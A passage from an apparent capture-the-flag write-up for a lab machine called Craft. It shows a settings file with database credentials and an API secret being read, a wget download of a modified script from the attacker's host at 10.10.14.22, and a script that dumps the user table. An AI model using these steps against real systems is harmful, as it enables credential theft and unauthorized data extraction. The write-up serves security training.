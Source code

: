 Still, the `dbtest.py` file is interesting for two reasons. First, from the `from craft_api import settings` line, it is clear that there is a settings file that contains the database information including a database user and password (note: it turns out that these database credentials are rather unimportant). The settings file is not accessible via the Gogs `Craft/craft-api` repository, however it is accessible from the command line of the remote system.

```python
/opt/app/craft_api # cat settings.py
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Secondly, the `dbtest.py` file is running a SQL query against the `brew` table which is referenced in `craft-api/craft_api/database/models.py` on Gogs. Along with the `brew` table, a `user` table is also referenced in the aforementioned file. Knowing this, the contents of `dbtest.py` can be modified to run a SQL query that will display the information from the `user` table instead of the boring information from the `brew` table.

The `dbtest.py` file was edited on the local attacking system and then transferred to the remote system using `wget http://10.10.14.22/dbtest.py -O dbtest.py` (on the remote system's CLI) and `python3 -m http.server 80` (on the local system).

The newly modified `dbtest.py` file is represented below. Note the change to the `sql` variable and to the `result` variable.

```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT * FROM `user`"
        cursor.execute(sql)
        result = cursor.fetchmany(1000)
        print(result)

finally:
    connection.close()
```
